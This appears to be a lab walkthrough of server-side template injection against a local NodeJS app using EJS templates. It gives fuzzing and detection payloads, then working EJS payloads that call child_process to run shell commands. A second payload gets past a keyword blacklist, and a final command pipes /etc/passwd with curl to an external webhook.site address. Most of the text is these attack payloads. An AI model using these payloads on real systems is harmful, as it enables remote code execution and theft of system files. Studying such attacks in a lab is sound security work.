










## SSTI 

### Preparation

Go to `http://localhost:3000/settings` and set STTI is `Yes` ^^

Let's go to `/page-account` and check account details

### Detect

We will check by payload: `${{<%[%'"}}%\` (fuzzing the template)

And save changes. This's a web response. So sever execute my payload and throw error because payload `${{<%[%'"}}%\` is synthesized by many different templates.

In order to check it exactly, We will check payload `${7*7}`, `<%- 7*7 %>`, `{{7*7}}`,...

`${7*7}`

`<%- 7*7 %>`

So web server execute our expressions

We can detect type of template with `https://cheatsheet.hackmanit.de/template-injection-table/index.html`

=> EJS (NodeJS)

Firstly, I use the payload `<%= global.process.mainModule.require('child_process').execSync('curl https://webhook.site/a00c32ab-e5c5-4d2f-baf6-2f6d6ec5e343') %>`

Some words in blacklists????

I will use another payload: `<%= global.process.mainModule.require('child_process').spawn('curl https://webhook.site/a00c32ab-e5c5-4d2f-baf6-2f6d6ec5e343', [], { stdio: 'inherit', shell: true }) %>`

So you can excute any command like ls, rm, cat,...

replace curl... -> cat /etc/passwd | curl -X POST -d @- https://webhook.site/635fbc27-02fd-4391-b8dd-e38f73a75690

